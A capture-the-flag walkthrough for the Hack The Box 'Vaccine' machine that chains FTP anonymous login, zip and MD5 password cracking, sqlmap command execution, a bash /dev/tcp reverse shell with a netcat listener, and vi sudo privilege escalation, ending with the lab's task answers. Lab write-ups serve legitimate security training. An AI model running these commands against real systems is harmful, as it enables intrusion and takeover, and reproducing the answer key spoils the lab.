



# Vaccine      


## Solution

### Scan with nmap

Type:

```
nmap -sC -sV {target ip} -v
```

`-sC` - This flag tells Nmap to use the default set of scripts during the scan. These scripts are part of the Nmap Scripting Engine (NSE) and are used for tasks such as version detection, vulnerability detection, and more. Using -sC enhances the scan by providing additional information about the target.

`-sV` - Version detection. Nmap will try to determine the version of the services running on open ports. This is useful for identifying specific software and versions, which can help in assessing potential vulnerabilities.

`-v` - Enables verbose mode. Verbose mode provides more detailed output during the scanning process, allowing you to see more information about what Nmap is doing. This can be helpful for debugging and understanding the progress of the scan.




`21/tcp (FTP)` - This port is used by the `File Transfer Protocol (FTP)`, which allows for the transfer of files between computers on a network. The specific service running on this port is `vsftpd 3.0.3`, known for being secure, fast, and stable. The server status indicates that it is connected, the user `ftpuser` is logged in, and the session is using ASCII type with no bandwidth limit.

`22/tcp (SSH)` - This port is used by the `Secure Shell (SSH)` protocol, which allows for secure remote login and other secure network services over an unsecured network. It encrypts the session, making it ideal for secure command-line access and file transfers between computers.

`80/tcp (HTTP)` - This port is used by the `Hypertext Transfer Protocol (HTTP)`, which is the foundation of data communication for the World Wide Web. It is commonly used for serving web pages and handling web traffic between a client (such as a web browser) and a web server.

After pasting http://{target ip}/ into the browser, we can see website, speaking specifically - login panel.


### ftp 

Since we don't have any credentials for `SSH` and `MegaCorp Login`, the only reasonable way is to try connecting via `FTP`.

Type:

```
ftp {target ip}
```

As a login use `Anonymous`.

When it asks you for password - just press `Enter`.


We can see that there is `backup.zip` file on the server.

Let's `get` it.

```
get backup.zip
```


When it's done. `Exit` the `FTP` server.


File should be in the directory, from which you connected to `ftp`.


Let's try to `unzip` the `.zip`.


No success. File is password protected.

### John the Ripper

`John the Ripper` is a powerful open-source password cracking tool designed to identify weak passwords through various cracking techniques, including dictionary attacks and brute force. Originally developed for Unix-based systems, it now supports a wide range of platforms, including Windows and macOS. It is highly customizable and can be used with different hash algorithms and encryption methods. Users often utilize it to assess the strength of their own passwords or to recover lost passwords, though it must be used responsibly and ethically ( `;)` ).


Type:

```
zip2john backup.zip > {any name you want}.txt
```


Now is time to `crack` the password. 

I would always recommend trying with strong password `dictionaries` first, instead of `incrementing` characters one by one.

It is almost always faster and usually successful. 

In this case, we will use `rockyou.txt` dictionary.

Remember, it is `very easy/easy` machine so `Hack The Box` creators won't complicate your life that much.

The `rockyou.txt` dictionary is a widely used password list for brute-force and dictionary attacks, originally compiled from a massive data breach of RockYou, a social networking app, in 2009. It contains over 14 million passwords, including many commonly used and easily guessable ones. Security professionals and attackers alike use it to test password strength and perform vulnerability assessments.

When we have our password's `hash` and `rockyou.txt` dictionary, type:

```
john --wordlist={path to the rockyou.txt dictionary} {name of the file with password hash}.txt
```


Password is `741852963`.

Now, we can:

```
unzip backup.zip
```


We extracted two files - `index.php` and `style.css`.

Inside `index.php` we can see this:


Here are the `admin` credentials: `admin:2cb42f8734ea607eefed3b70af13bbd3`, but the password is hashed using `MD5`.

Since it's a `hash`, the only option is to crack it.

### Hashcat

This time we will use the `hashcat` tool.

It's a powerful and versatile password recovery tool that utilizes GPU acceleration to crack hashed passwords efficiently. It supports a wide variety of hashing algorithms, including `MD5`, `SHA-1`, and `bcrypt`, among others. `Hashcat` can perform different types of attacks, such as `dictionary attacks`, `brute force attacks`, and `rule-based attacks`, making it suitable for various password-cracking scenarios. It is widely used by security professionals and ethical hackers to test password strength and recover forgotten passwords.

If you need more details type:

```
hashcat -h
```

Load `2cb42f8734ea607eefed3b70af13bbd3` into `.txt` file, by typing:

```
echo "2cb42f8734ea607eefed3b70af13bbd3" > {any name you want}.txt
```


When it's done type:

```
hashcat -m 0 -a 0 {name of the file with password hash}.txt {path to the rockyou.txt dictionary} 
```


`-m 0` - This flag specifies the `hash type` that `Hashcat` should use. In this case, `0 represents MD5`. Hashcat supports many hash types, and each type has a corresponding number.

`-a 0` - This flag specifies the `attack mode`. `0 stands for a dictionary attack`, where `Hashcat` uses a list of possible passwords (a wordlist) to attempt to match the hash. There are various attack modes available, such as combinator, brute-force, and mask attacks.


Again - we used `rockyou.txt` dictionary and it worked.

Password is `qwerty789`.

### MegaCorp Login

Go to: http://{target ip}/

Now, it's finally time to log in as `admin` on the web interface.


We are getting redirected to `/dashboard.php`.


There is not much we can do.

Let's paste something into `search bar`.


We can see that the `URL` query contains a variable called `$search`, which is responsible for searching through the catalog.

### SQLmap

`SQLMap` is an open-source `penetration testing tool` that automates the process of detecting and exploiting `SQL injection vulnerabilities` in `web applications`. It features a powerful detection engine, numerous niche features for the ultimate `penetration tester`, and a broad range of switches from database fingerprinting to data retrieval and accessing the underlying file system. `SQLMap` supports various database management systems, including `MySQL`, `PostgreSQL`, `Oracle`, `Microsoft SQL Server`, and many others.

If you need more info, type:

```
sqlmap -h
```

We'll provide the `URL` and `cookie` to `sqlmap` for authentication purposes.

Remeber to still be logged in as `admin` at  http://{target ip}/.

In `Google Chrome`:

`1` Right click

`2` Inspect

`3` Application

`4` Cookies


In my example, `cookie` is: `PHPSESSID=b9kuvnj81hc306ss6hnvp67b0b`.

Now, typ in your terminal:

```
sqlmap -u "http://{target ip}/dashboard.php?search=test" --cookie ="PHPSESSID={your cookie}" --os-shell
```

`-u` - This flag specifies the target URL that `sqlmap` will test for SQL injection vulnerabilities.

`--cookie="{your cookie}"` - This flag is used to pass the session cookie to `sqlmap`. The `PHPSESSID` is a session identifier that is required for authenticated access to the web application. By providing this cookie, `sqlmap` can perform the test as an authenticated user.

`--os-shell` - This flag tells `sqlmap` to attempt to open an operating system shell on the database server once an `SQL injection` vulnerability is found and exploited. This allows the user to `execute operating system commands on the server` through the `SQL injection` vulnerability.


#### Disclaimer

`1`

I had to reset machine due to some problems. This means my `target ip` and `cookie` values have changed. It doesn't matter but I mention this to not mislead you.

`2`

There will be some questions that the tool will ask you, you can respond with `Y` or `N` and then just press `Enter`. Your choices shouldn't matter at all in the next phase.

We have a shell:


We are `in`. 

### Reverse shell preparation

`1`

Go to: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

`2`

Press `Bash TCP`

`3`



We have to modify this `payload`.

#### OR 

We can use a reliable site: https://www.revshells.com/

We are going to use `Bash -i` one.

Paste `ip address` of our `tun0` interface as we are connected to `Hack The Box` through VPN.

If you don't know your `tun0` ip address use `ip a` command or `ifconfig`.

The `port` can be any of your choice.


Copy the payload, it should look like this:

```
sh -i >& /dev/tcp/{your tun0 ip}/{port you have chosen} 0>&1
```

### Netcat

Now is time to set up the `netcat`.

Type in new tab:

```
nc -lvnp {port you have chosen}
```


### Execute reverse shell

We have to modify a little bit our `payload` to execute it.

It should be like this:

```
bash -c "sh -i >& /dev/tcp/{your tun0 ip}/{port you have chosen} 0>&1"
```

When it's done, type it into our `os-shell`.

When it asks you about anything just press `Enter`.


Looks like it worked. Now is time to check our tab with `netcat`.


We have `reverse shell`. Success.

If you need, you can stabilize your `shell` - I modified one of payloads (from this link:https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html ) and it should work:

```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

Just `paste it` and press `Enter`.

### Get the user flag

As by default we are in `/var/lib/postgresql/11/main` path, let's have a look around there.

After few minutes of searching `user`'s flag was found.

It is in `/var/lib/postgresql` path.


### System search

It's time to look around the system.

I'll save your time.

Go to `/var/www/html`:

```
cd /var/www/html
```

and see what's in `dashboard.php`:

```
cat dashboard.php
```



We have `postgres` user's password - `P@s5w0rd!`.

### SSH

From the `nmap` scan we know that `SSH` service is open.

Let's log in through `SSH` with `postgres` credentials.

Type:

```
ssh postgres@{target ip}
```

### Privilege Escalation

When we are `in` let's hit:

```
sudo -l
```


We have `sudo privileges` to edit the `pg_hba.conf` file using `vi` by running:

```
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf 
```


When it's typed, just press `Enter`.


Now, we go to `GTFOBins` : https://gtfobins.github.io/gtfobins/vi/


Marked `payload` is just for us.

In `vi` tab type:

```
:set shell=/bin/sh
```


and then:

```
:shell
```


Boom. We are `root`.


### Get the root flag

Root flag is in the `/root` directory.


### Paste the flags


## Answers

### Task-1: Besides SSH and HTTP, what other service is hosted on this box?

FTP

### Task-2: This service can be configured to allow login with any password for specific username. What is that username?

Anonymous

### Task-3: What is the name of the file downloaded over this service?

backup.zip

### Task-4: What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?

zip2john

### Task-5: What is the password for the admin user on the website?

qwerty789

### Task-6: What option can be passed to sqlmap to try to get command execution via the sql injection?

--os-shell

### Task-7: What program can the postgres user run as root using sudo?

vi

### Submit user flag

@

### Submit root flag

GGWP